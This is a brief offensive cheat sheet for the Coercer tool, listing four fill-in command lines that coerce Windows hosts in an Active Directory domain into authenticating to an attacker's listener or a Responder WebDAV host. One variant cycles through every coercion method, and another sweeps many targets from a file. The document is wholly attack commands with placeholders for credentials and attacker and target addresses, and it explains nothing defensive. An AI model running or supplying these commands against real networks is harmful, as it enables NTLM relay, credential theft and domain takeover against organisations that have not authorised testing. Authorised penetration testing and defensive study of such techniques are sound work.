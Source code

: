# coercer

% adcs, certificate, windows, Active directory, template

## coercer - try each method no pause
#plateform/linux #target/remote #cat/ATTACK
```
Coercer coerce -d '<domain>' -u '<user>' -p '<password>' --listener <hackerIp> <targetIp> --always-continue
```

## coercer - try each method to coerce
#plateform/linux #target/remote #cat/RECON
```
Coercer coerce -d '<domain>' -u '<user>' -p '<password>' --listener <hackerIp> <targetIp> 
```

## coercer - Webdav
#plateform/linux #target/remote #cat/RECON
```
Coercer coerce -d '<domain>' -u '<user>' -p '<password>' --webdav-host '<ResponderMachineName>' <targetIp> 
```

## coercer - List vulns many targets
#plateform/linux #target/remote #cat/RECON
```
Coercer coerce -d '<domain>' -u '<user>' -p '<password>' --listener <hackerIp> --targets-file <PathToTargetFile> 
```